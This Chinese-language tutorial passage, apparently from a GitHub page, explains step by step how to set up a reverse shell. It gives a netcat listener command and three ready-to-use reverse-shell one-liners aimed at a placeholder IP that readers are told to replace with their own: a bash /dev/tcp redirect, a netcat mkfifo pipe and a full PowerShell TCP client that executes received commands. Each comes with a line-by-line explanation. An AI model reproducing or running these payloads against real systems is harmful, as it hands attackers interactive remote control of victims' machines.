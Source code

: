 
## 2.2 反向shell实现步骤
* ##### 首先我们的主机需要监听一个端口，以进行终端信息的传输
>这里的命令我使用netcat的简写nc
```bash
nc -lvnp 8888
```
使用netcat监听8888端口
|参数|英文全称|含义|
|:---|:---|:---|
|**-l**|**Listen mode**|监听，并等待目标连接|
|**-v**|**Verbose**|详细模式，以便我们知道何时收到连接|
|**-n**|**Numeric-only IP addresses**|在处理 IP 地址和端口时不进行 DNS 解析|
|**-p**|**Port**|指定netcat监听的端口|

* ##### 然后让目标主机连接我们，发送shell的信息，并接收我们的命令
>使用`1.1.1.1`作为演示IP，使用时替换为自己的公网IP

###### Linux bash
```bash
bash -c 'bash -i >& /dev/tcp/1.1.1.1/8888 0>&1'
```
- **`bash -c`**：这部分指示 Bash 执行后续的字符串作为命令。

- **`bash -i >& /dev/tcp/1.1.1.1/8888 0>&1`**：这是 Bash 将要执行的命令字符串，具体包含以下几个组件：
    - **`bash -i`**：启动一个交互式的 Bash shell。这里的 -i 选项代表“interactive”，意味着 shell 会保持与用户的交互。
    - **`>& /dev/tcp/1.1.1.1/8888`**：这部分是重定向操作，它将 Bash 的标准输出（即 stdout，文件描述符为 1）重定向到 `/dev/tcp/1.1.1.1/8888`。这里的 `/ev/tcp/host/port` 是 Bash 中一个特殊的文件路径，用于创建 TCP 连接到指定的 IP 地址（此处为 1.1.1.1）和端口（此处为 8888）。
    - **`0>&1`**：这是另一个重定向操作，将标准输入（即 stdin，文件描述符为 0）重定向到已经被重定向的标准输出（stdout）。这意味着所有接收到的输入（从 TCP 连接来的）都将被发送到交互式 shell。
###### Linux netcat
```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 1.1.1.1 8888 >/tmp/f
```
- **`rm /tmp/f`**: 这个命令尝试删除 `/tmp/f` 这个文件。这是为了确保在创建命名管道（FIFO）之前，该路径上没有已存在的文件或管道。

- **`mkfifo /tmp/f`**: 创建一个名为 `/tmp/f` 的命名管道。命名管道是一种特殊类型的文件，它在文件系统中存在并允许进程间通信（IPC）。数据写入该管道可以被其他进程读取。

- **`cat /tmp/f`**: 这个命令读取 `/tmp/f` 管道中的内容。由于 `/tmp/f` 是一个管道，`cat` 命令将会阻塞（等待），直到有数据可以读取。

- **`| /bin/sh -i 2>&1`**: `cat` 命令的输出（即从 `/tmp/f` 读取的数据）通过管道（`|`）传递给 `/bin/sh -i`。这里，`/bin/sh -i` 启动一个交互式 shell，`2>&1` 将标准错误（stderr，文件描述符为 2）重定向到标准输出（stdout，文件描述符为 1），这样错误信息也会发送到 netcat。

- **`| nc 1.1.1.1 8888`**: 交互式 shell 的输出再次通过管道传递给 `nc`（netcat），这个命令尝试连接到 IP 地址为 `1.1.1.1`、端口号为 `8888` 的服务器。这样，shell 的输出（包括错误输出）都被发送到远程服务器。

- **`>/tmp/f`**: 最后，netcat 的输出（即来自远程服务器的任何输入）被重定向到 `/tmp/f` 管道。这意味着远程服务器可以发送命令回这个 shell，命令将被执行，并且结果返回到远程服务器。
###### Powershell
```powershell
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('1.1.1.1',8888);$s = $client.GetStream();[byte[]]$b = 0..65535|%{0};while(($i = $s.Read($b, 0, $b.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($b,0, $i);$sb = (iex $data 2>&1 | Out-String );$sb2 = $sb + 'PS ' + (pwd).Path + '> ';$sbt = ([text.encoding]::ASCII).GetBytes($sb2);$s.Write($sbt,0,$sbt.Length);$s.Flush()};$client.Close()"
```
